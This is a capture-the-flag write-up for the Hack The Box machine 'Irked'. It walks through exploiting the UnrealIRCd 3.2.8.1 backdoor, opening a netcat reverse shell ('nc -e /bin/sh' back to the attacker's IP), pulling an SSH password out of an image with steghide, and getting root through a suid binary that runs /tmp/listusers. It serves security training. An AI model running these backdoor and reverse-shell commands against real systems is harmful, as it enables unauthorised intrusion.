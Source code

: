 ```yaml
---
layout: single
title: Irked Writeup
date: '2020-04-30 15:30:00'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-04-30-irked-writeup/irked_logo.png
    text: "https://app.hackthebox.eu/machines/163"
typora-copy-images-to: ../images/posts/2020/${filename}/
---
```


A pretty easy box that reinforces the use of basic techniques.…

## Enumeration

Starting with the usual Autorecon we turn up the following
```
    22/tcp open ssh syn-ack ttl 63 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    80/tcp open http syn-ack ttl 63 Apache httpd 2.4.10 ((Debian))
    111/tcp open rpcbind syn-ack ttl 63 2-4 (RPC #100000)
    6697/tcp open irc syn-ack ttl 63 UnrealIRCd
    8067/tcp open irc syn-ack ttl 63 UnrealIRCd
    54513/tcp open status syn-ack ttl 63 1 (RPC #100024)
    65534/tcp open irc syn-ack ttl 63 UnrealIRCd
```
Given the name of the server I was pretty much banking on seeing IRC running, and so wasn't disappointed.

Picking one of the UnrealIRCd ports, 6697, I tried telnetting in to see if it really was IRC running, which it was. It's pretty easy to interact with a IRC server over telnet, so I registered with the server to get a bit more information from it
```bash
    telnet 10.10.10.117 6697
    Trying 10.10.10.117...
    Connected to 10.10.10.117.
    Escape character is '^]'.
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
    :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    nick b0b
    user b0b 0 * :b0b
    :irked.htb 001 b0b :Welcome to the ROXnet IRC Network b0b!b0b@10.10.14.15
    :irked.htb 002 b0b :Your host is irked.htb, running version Unreal3.2.8.1
```

From this we can see the server is running _Unreal3.2.8.1_. A quick look on ExploitDB turns up [https://www.exploit-db.com/exploits/13853](https://www.exploit-db.com/exploits/13853) which makes use of a backdoor that was introduced into the source.

The backdoor is very easy to exploit, you just need to send `AB;` and then whatever shell commands you want to execute.

I decided to try a lazy approach first and fired up a listener with `nc -lvp 1234` and then ran `nc 10.10.10.117 6697`. Once the `nc` connected to the server I sent the command `nc -e /bin/sh 10.10.14.12 1234`. Being lazy paid off in this case as `nc` was installed on the box and so I then had a shell as the ircd user.

A quick look around the filesystem turned up the user `djmardov`. Looking in `/home/djmardov` I had a nose in the `Documents` directory. I couldn't view `user.txt` but the file `.backup` looked interesting.

![Annotation-2020-04-30-150422](../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422.png)

This seems to be a reference to [Steganograph](https://en.wikipedia.org/wiki/Steganography)y. First I installed `steghide` with `sudo apt install steghide` and then had a look for a picture. From the earlier `nmap` I remembered that a webserver was listening and so that seemed a good place to start.

![Annotation-2020-04-30-150422a](../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422a.png)


There was indeed an image on the site, irked.jpg. I grabbed this and then ran
```bash
    steghide extract -sf irked.jpg
    Enter passphrase:
    wrote extracted data to "pass.txt".
    
    cat pass.txt
    Kab6h+m+bbp2J:HG
```
Good stuff. Taking the lazy option I tried this password over ssh `ssh djmardov@10.10.10.117`

and I was in. It was then a quick job to get `user.txt`

![Annotation-2020-04-30-150422b](../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422b.png)

## Escalating privileges

### Enumeration

Now that we have an interactive session as a different users it's time to redo enumeration. Looking at processes running and services listening there wasn't really anything sticking out. Given that there wasn't anything obvious it was time to use [LinEnum](https://github.com/rebootuser/LinEnum). I used `scp` to copy this across and then kicked it off

![Annotation-2020-04-30-150422c](../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422c.png)

Looking through the report a _suid_ file with a fairly recent changed date. Given the box was released on 17 Nov 2018 it seemed worth a look

![Annotation-2020-04-30-150422d](../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422d.png)

### Exploitation

When you run the program it tries to access `/tmp/listusers` which doesn't exist. Copying the file to my local machine and then running it using `ltrace` shows the following:

![Annotation-2020-04-30-150422e](../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422e.png)

The program first calls the `who` command using system. It then sets its userid (uid) to 0, which is root. It then tries to execute the contents of `/tmp/listusers`. This means if we put some shell commands in this files they should be executed as root.

To do this we `vi /tmp/listusers` and put in the following
```bash
    #!/bin/bash
    echo "shell?"
    /bin/bash
```
We then run `chmod u+x /tmp/listusers` to make the file executable. The `echo "shell?"` is just so we can tell if the script is executed if we don't get a shell for some reason.

Running `/usr/bin/viewuser` does indeed give us a root shell and we can quickly grab the flag

![Annotation-2020-04-30-150422f](../images/posts/2020/2020-04-30-irked-writeup/Annotation-2020-04-30-150422f-6947874.png)

